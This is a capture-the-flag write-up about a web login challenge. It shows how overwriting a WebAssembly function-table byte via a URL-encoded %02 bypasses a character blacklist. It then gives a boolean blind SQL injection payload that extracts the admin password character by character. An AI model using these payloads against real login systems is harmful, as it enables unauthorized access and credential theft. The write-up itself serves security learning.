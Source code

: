 To determine what functions these correspond to, I ran `wasm2wat site.wasm -o site.wat` and found the following:

```plaintext:site.wat
...

  (export "__wasm_call_ctors" (func 1))
  (export "load_query" (func 6))
  (export "is_blacklisted" (func 8))
  (export "craft_query" (func 9))

...
```

So the function in table entry 1 is `is_blacklisted`, and the function in table entry 2 is `load_query`. Looking at the code, it seems that `is_blacklisted` checks if there are any blacklisted characters used, and if not it calls `load_query`, which seems to return the final sql query. So by overwriting the 0x1 byte with 0x2, we can bypass the blacklist! Also, we can use the url decoding method to write the 0x2 byte.

I ran the function with blacklisted characters: `CraftQuery('"'.repeat(68) + '%02', 'B')`, and sure enough, the blacklist was bypassed.

```sql
SELECT * from Users WHERE username="""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""" AND password="B"
```

Now we have sql injection. Referring to the `db-init.sql` file provided, I saw that we needed to get the password of the admin. Unfortunately however, server.js does not give us the results of the sql query.

```javascript:server.js
...

db.query(sql, (err, results) => {
    if (err) {
        req.flash('error', 'Uh oh. Something went wrong.');
        req.session.save(() => {
            res.redirect('/');
        });
    } else if (results.length !== 0) {
        res.redirect(`/reminder?username=${username}`);
    } else {
        req.flash('error', 'Invalid username/password');
        req.session.save(() => {
            res.redirect('/');
        });
    }
});

...
```

Fortunately, though, it does provide us with information on whether 0 rows were returned by the query. We can extract the flag character by character, for example, using a query such as `admin" and binary substring(password, 1, 1) = "T";#` to check whether the first character is `T`, and we check through all possible characters for each index.
